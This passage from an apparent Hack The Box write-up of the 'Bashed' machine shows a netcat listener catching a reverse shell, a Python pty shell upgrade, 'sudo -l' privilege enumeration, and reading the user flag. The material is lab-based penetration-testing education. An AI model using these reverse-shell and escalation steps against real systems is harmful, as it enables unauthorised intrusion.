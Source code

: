 <div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/bashed/revshells.png" title="Use Revshells" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Check the netcat listener and catch the shell.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ sudo nc -nlvp 443                           
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.10.68] 52940
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
python3 -c 'import pty; pty.spawn("/bin/bash");
```
{% endraw %}

<br />
Run sudo -l to get the list of all the commands that the user can run as sudo.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ sudo nc -nlvp 443                           
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.10.68] 52940
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
python3 -c 'import pty; pty.spawn("/bin/bash");'
www-data@bashed:/var/www/html/dev$ sudo -l 
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```sh
www-data@bashed
:/var/www/html/dev# cat /home/arrexel/user.txt

<redacted>
www-data@bashed
:/var/www/html/dev# ip a

1: lo:  mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33:  mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:69:30 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.68/32 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
```